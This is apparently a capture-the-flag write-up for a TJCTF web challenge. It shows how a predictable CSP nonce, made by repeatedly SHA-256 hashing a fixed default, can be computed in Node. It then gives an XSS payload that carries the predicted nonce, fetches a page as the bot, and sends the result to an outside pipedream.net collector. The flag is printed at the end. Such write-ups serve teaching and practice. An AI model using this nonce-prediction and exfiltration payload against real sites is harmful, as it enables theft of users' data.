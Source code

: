 # Solution

The nonce just be updated from default value each time we request to server:

```js
req.locals.nonce = req.locals.nonce ?? '47baeefe8a0b0e8276c2f7ea2f24c1cc9deb613a8b9c866f796a892ef9f8e65d';
req.locals.nonce = crypto.createHash('sha256').update(req.locals.nonce).digest('hex');
```
So we can easily guess the value of the nonce:
```js
> const crypto = require('crypto');
undefined
> crypto.createHash('sha256').update("47baeefe8a0b0e8276c2f7ea2f24c1cc9deb613a8b9c866f796a892ef9f8e65d").digest('hex');
'34dce4583c235ebfa8e06020ae7f81ccc0007b05baf6cca9c03ae07930c64b4f'
> crypto.createHash('sha256').update("34dce4583c235ebfa8e06020ae7f81ccc0007b05baf6cca9c03ae07930c64b4f").digest('hex');
'f8c5a82d13fc3dd49597d4d292ab08f98c3a7845eb7268213ec6a0168fe3ce11'
> crypto.createHash('sha256').update("").digest('hex');
'e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855'
> crypto.createHash('sha256').update("f8c5a82d13fc3dd49597d4d292ab08f98c3a7845eb7268213ec6a0168fe3ce11").digest('hex');
'6cfa460c34d3b448767eb47edb9a73d03061e913cd8a7d712340ccdf8b342c36'
```

Create a note with this content and then send it to the bot:

```js
<script nonce="6cfa460c34d3b448767eb47edb9a73d03061e913cd8a7d712340ccdf8b342c36">fetch(`https://yolo.tjc.tf/do`).then(function(r){return r.text()}).then(function(r){location.href=`https://eov5gzrmq5p9826.m.pipedream.net/?flag=`+encodeURIComponent(r)});</script>
//tjctf{y0u_0n1y_1iv3_0nc3_5ab61b33}
```